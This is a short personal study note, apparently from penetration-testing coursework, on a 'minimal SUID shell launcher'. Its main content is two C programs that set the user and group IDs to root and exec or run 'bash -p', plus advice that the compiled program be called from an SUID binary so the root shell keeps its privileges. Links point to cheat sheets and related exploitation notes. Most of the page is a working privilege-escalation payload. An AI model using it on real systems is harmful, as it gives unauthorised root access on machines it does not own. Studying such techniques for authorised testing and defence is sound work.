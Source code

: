 # Minimal SUID Shell Launcher

author:: Nathan Acks  
date:: 2022-08-05

```c
#include <stdio.h>
#include <unistd.h>

main() {
	setuid(0);
	setgid(0);
	execl("/bin/bash",
	      "/bin/bash",
	      "-p",
	      (char*) NULL);
}
```

Alternate approach:

```c
#include <stdio.h>
#include <time.h>

main() {
	setresuid(0, 0, 0);
	setregid(0, 0, 0);
	system("/bin/bash -p");
	return 0;
}
```

Once compiled, this needs to be called by an SUID binary. The `-p` is required to keep bash from dropping privileges.

Note that this is very similar to the `LD_PRELOAD` trick, except that we're using `execl()` instead of `system()` and dropping a header.

* [slyth11907 / Cheatsheets](https://github.com/slyth11907/Cheatsheets)
* [unistd's execl() without passing any arguments](https://stackoverflow.com/a/34400649)
* [Exploiting Bash](exploiting-bash.md)
* [Exploiting LD_PRELOAD](exploiting-ld-preload.md)
* [2022-08-05 - OffSec Live: PEN-200](../log/2022-08-05-offsec-live-pen-200.md)
